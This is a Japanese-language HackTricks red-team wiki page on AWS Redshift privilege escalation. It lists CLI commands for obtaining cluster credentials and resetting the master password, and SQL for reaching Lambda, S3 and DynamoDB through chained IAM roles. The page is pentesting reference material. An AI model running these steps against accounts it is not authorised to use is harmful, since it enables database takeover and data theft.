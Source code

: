 # AWS - Redshift Privesc

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じて、ゼロからヒーローまでAWSハッキングを学びましょう</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい**または **HackTricks をPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションを見つける
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) または [**telegram グループ**](https://t.me/peass) に **参加** または **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) **をフォロー**してください。
* **HackTricks** と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks) の GitHub リポジトリに PR を提出して、あなたのハッキングテクニックを共有してください。

</details>

## Redshift

RDS に関する詳細情報は次を参照してください:

{% content-ref url="../aws-services/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

これらの権限を持つと、**すべてのクラスターの情報**（名前とクラスターユーザー名を含む）を取得し、それにアクセスするための**資格情報**を取得できます。

```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```

**潜在的影響:** データベース内の機密情報を見つける。

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

これらの権限を持つと、**すべてのクラスタの情報**を取得し、それにアクセスするための**資格情報**を取得できます。\
ポストグレスユーザは、資格情報を取得するために使用されたIAMアイデンティティが持つ**権限**を持つことに注意してください。

```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```

**潜在的影響:** データベース内の機密情報を見つけることができます。

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

AWS CLIから内部のpostgres（redshit）ユーザーの**マスターパスワードを変更**することが可能です（これらが必要な権限だと思いますが、まだテストしていません）。

```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```

**潜在的影響:** データベース内の機密情報を見つける。

## 外部サービスへのアクセス

{% hint style="warning" %}
以下のリソースにアクセスするには、**使用するロールを指定する必要があります**。Redshiftクラスタには、使用できるAWSロールのリストが割り当てられている場合があります。ARNを知っている場合はそれを使用することもできますが、デフォルトの割り当てられたロールを使用するには「**default**」を設定するだけです。

さらに、[**こちらで説明されているように**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html)、Redshiftはロールを連結することも可能です（最初のロールが2番目のロールを仮定できる場合）。ただし、それらを**カンマ**で**区切る**だけで、さらなるアクセス権を取得できます: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### Lambdas

[https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html)で説明されているように、Redshiftからlambda関数を呼び出すことが可能です。

```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```

### S3

As explained in [https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html), **S3バケットに読み書きする**ことが可能です。

```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```

### Dynamo

As explained in [https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html), **DynamoDBからデータを取得**することが可能です。

```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```

{% hint style="warning" %}
データを提供するAmazon DynamoDBテーブルは、[REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region)オプションを使用して、Amazon DynamoDBテーブルが配置されているAWSリージョンを指定しない限り、クラスタと同じAWSリージョンに作成する必要があります。
{% endhint %}

### EMR

[https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)を確認してください。

## 参考文献

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を使って、ゼロからヒーローまでAWSハッキングを学びましょう</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)を**フォロー**する
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks)のGitHubリポジトリにPRを提出して、あなたのハッキングテクニックを共有してください。

</details>
